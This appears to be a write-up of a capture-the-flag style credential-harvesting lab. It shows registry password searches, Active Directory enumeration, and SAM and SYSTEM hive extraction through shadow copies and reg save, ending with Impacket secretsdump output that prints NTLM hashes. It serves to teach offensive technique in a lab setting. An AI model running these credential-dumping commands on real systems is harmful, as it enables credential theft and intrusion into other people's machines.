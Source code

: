 # Credharvesting
- After gaining access to a system we need to find creds.

## Credentials are stored insecurely in various locations in systems:
-   Clear-text files
 -   Database files
 -   Memory
 -   Password managers
 -   Enterprise Vaults
 -   Active Directory
 -   Network Sniffing

## The following are some of the types of clear-text files that an attacker may be interested in:
- Commands history
-  Configuration files (Web App, FTP files, etc.)
- Other Files related to Windows Applications (Internet Browsers, Email Clients, etc.)
- Backup files
- Shared files and folders
- Registry
- Source code 

## As an example of a history command, a PowerShell saves executed PowerShell commands in a history file in a user profile in the following path: 
    C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt 

    
## Searching for the "password" keyword in the Registry        
- c:\Users\user> reg query HKLM /f password /t REG_SZ /s
- C:\Users\user> reg query HKCU /f password /t REG_SZ /s

## Task 3
Use the methods shown in this task to search through the Windows registry for an entry called "flag" which contains a password. What is the password?
Use findstr to grep THM text only

```
PS C:\Users\thm> reg query HKLM /f password /t REG_SZ /s | findstr flag
  flag    REG_SZ    password: 7tyh4ckm3
```    

Enumerate the AD environment we provided. What is the password of the victim user found in the description section?
Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description

```
PS C:\Users\thm> Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description

Name          SamAccountName Description
----          -------------- -----------
Administrator Administrator  Built-in account for administering the computer/domain
Guest         Guest          Built-in account for guest access to the computer/domain
krbtgt        krbtgt         Key Distribution Center Service Account
THM User      thm
THM Victim    victim         Change the password: Passw0rd!@#
thm-local     thm-local
Admin THM     admin
svc-thm       svc-thm
THM Admin BK  bk-admin
test          test-user
sshd          sshd
```
## Task 4
Confirming No Access to the SAM Database 
```
C:\Windows\system32>type c:\Windows\System32\config\sam
type c:\Windows\System32\config\sam
The process cannot access the file because it is being used by another process.

C:\Windows\System32> copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\ 
copy c:\Windows\System32\config\sam C:\Users\Administrator\Desktop\
The process cannot access the file because it is being used by another process.
        0 file(s) copied.
```

Creating a Shadow Copy of Volume C with WMIC
- Be sure to run Administrator Command Prompt
```
C:\Users\Administrator>wmic shadowcopy call create Volume='C:\'
Executing (Win32_ShadowCopy)->create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ReturnValue = 0;
        ShadowID = "{D8A11619-474F-40AE-A5A0-C2FAA1D78B85}";
```
Listing the Available Shadow Volumes
```
C:\Users\Administrator>vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {0c404084-8ace-4cb8-a7ed-7d7ec659bb5f}
   Contained 1 shadow copies at creation time: 5/31/2022 1:45:05 PM
      Shadow Copy ID: {d8a11619-474f-40ae-a5a0-c2faa1d78b85}
         Original Volume: (C:)\\?\Volume{19127295-0000-0000-0000-100000000000}\
         Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
         Originating Machine: Creds-Harvesting-AD.thm.red
         Service Machine: Creds-Harvesting-AD.thm.red
         Provider: 'Microsoft Software Shadow Copy provider 1.0'
         Type: ClientAccessible
         Attributes: Persistent, Client-accessible, No auto release, No writers, Differential
```

Copying the SAM and SYSTEM file from the Shadow Volume
```
C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
        1 file(s) copied.

C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
        1 file(s) copied.
```
Save SAM and SYSTEM files from the registry
```
C:\Users\Administrator\Desktop>reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
The operation completed successfully.

C:\Users\Administrator\Desktop>reg save HKLM\system C:\users\Administrator\Desktop\system-reg
The operation completed successfully.
```
Decrypting SAM Database using Impacket SecretsDump Script Locally
```
           
user@machine:~# python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:98d3a787a80d08385cea7fb4aa2a4261:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up...
```
## Task 5


